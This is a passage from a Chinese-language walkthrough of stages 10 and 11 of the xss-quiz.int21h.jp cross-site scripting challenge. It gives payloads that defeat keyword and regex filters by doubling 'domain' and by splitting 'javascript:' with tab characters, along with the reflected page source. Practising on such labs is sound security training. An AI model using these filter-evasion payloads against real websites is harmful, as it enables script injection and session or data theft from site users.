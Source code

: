 发现过滤了domain关键字，关键词过滤，一定是用了正则表达式，那么怎么过正则表达式？

>例如他过滤了“domain”关键字，那么只要domain出现，就会被替换，那么可以在domain关键字中间再加一个，组成“dodomainmain”，这样中间的domain被过滤，剩下的部分组成domain，这样就越过了！（好机智！）

```javascript
" onfocus="alert(document.dodomainmain)"
```

# 第十一关：
>http://xss-quiz.int21h.jp/stage11th.php?sid=8e2ec6beef278b3786780ab3b7fe5729b6746f83

输入：

```javascript
" onfocus="alert(document.dodomainmain)"
```

查看页面源码：

```javascript
<INPUT size=50 name=p1 ? onxxx="alert(document.dodomainmain)">
```

查看提示：
>Hint: "s/script/xscript/ig;" and "s/on[a-z]+=/onxxx=/ig;" and "s/style=/stxxx=/ig;" 

>说明过滤了`on.*`等一大部分， `s.*`和`script.`会变成`<xscript>` 
## 制表符越过
输入：

```javascript
"><a href="javascript:alert(document.domain);">XSS</a>
```
源码发现：

```javascript
<A href="javaxscript:alert(document.domain);">XSS</A>
```
加入制表符：

```javascript
"><a href="javascri	p	t:alert(document.domain)";>XSS</a> //OK
```

过了！

疑惑：
为什么

```javascript
" on&#x09;focus="alert(document.dodomainmain)"
```
过不去？

显示：

```javascript
<INPUT size=50 name=p1 ? on&#x09;focus="alert(document.dodomainmain)">
```
